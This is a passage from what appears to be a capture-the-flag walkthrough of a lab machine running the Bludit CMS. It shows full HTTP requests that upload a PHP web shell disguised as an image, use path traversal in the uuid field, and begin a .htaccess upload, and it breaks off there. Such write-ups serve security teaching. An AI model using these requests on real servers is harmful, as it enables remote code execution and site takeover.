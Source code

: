     http://10.10.10.191/bl-content/tmp/temp/

Now if we change the request to

    POST /admin/ajax/upload-images HTTP/1.1
    Host: 10.10.10.191
    Content-Length: 456
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvdbAfQfvdjrTLooA
    Origin: [http://10.10.10.191](http://10.10.10.191)
    Referer: [http://10.10.10.191/admin/new-content](http://10.10.10.191/admin/new-content)
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,fr;q=0.8
    Cookie: BLUDIT-KEY=q5604mab2r7h11hua34crtng26
    Connection: close

    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="images[]"; filename="evil.jpg"
    Content-Type: image/jpeg

    **<?php system($_GET['cmd'])'?>**
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="uuid"

    **../../tmp/temp**
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="tokenCSRF"

    3932e46b872ca59f022dd197c1b03b60b9f0d2c0
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA--

We get

    HTTP/1.1 200 OK
    Date: Thu, 13 Aug 2020 17:00:04 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 63
    Connection: close
    Content-Type: application/json

    {"status":0,"message":"Images uploaded.","images":["evil.jpg"]}

It is uploaded but is not accessible

![](https://cdn-images-1.medium.com/max/2000/1*i2fLFoM7qUJrxSR1y2zjNQ.png)

Following the exploit, we need to add .htaccess file with

    POST /admin/ajax/upload-images HTTP/1.1
    Host: 10.10.10.191
    Content-Length: 456
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvdbAfQfvdjrTLooA
    Origin: [http://10.10.10.191](http://10.10.10.191)
    Referer: [http://10.10.10.191/admin/new-content](http://10.10.10.191/admin/new-content)
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,fr;q=0.8
    Cookie: BLUDIT-KEY=q5604mab2r7h11hua34crtng26
    Connection: close
